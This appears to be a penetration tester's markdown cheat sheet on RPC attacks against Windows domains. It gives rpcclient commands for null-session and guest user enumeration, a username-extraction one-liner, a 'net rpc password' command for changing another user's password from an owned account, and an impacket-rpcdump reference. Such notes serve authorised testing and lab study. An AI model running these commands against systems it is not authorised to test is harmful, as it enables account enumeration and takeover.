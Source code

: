Use RPC client
---
#rpc #rpc-client #rpcclient

```shell
#enumerate users
rpcclient -U "" -N -c enumdomusers $TARGET_IP
#extract usernames
rpcclient -U "" -N -c enumdomusers $TARGET_IP | grep -o 'user:\[[^]]*\]' | awk -F'[][]' '{print $2}'
```


```shell
rpcclient -U "" $TARGET_IP
```

or with user "guest":

```bash
rpcclient -U guest $TARGET_IP
# lookupsids = sids -> username
enumdomusers
querydispinfo
enumprivs
enumprinters
```

Change user password via RPC
---
use net
```bash
#could be a password, krb5 ccache, no pass, nt hash...
net rpc password $USER -U $OWNED_USER -S $TARGET_IP -P $PASSWORD
```


Impacket RPC dump
---
#impacket #impacket-rpc

```bash
impacket-rpcdump -h
```
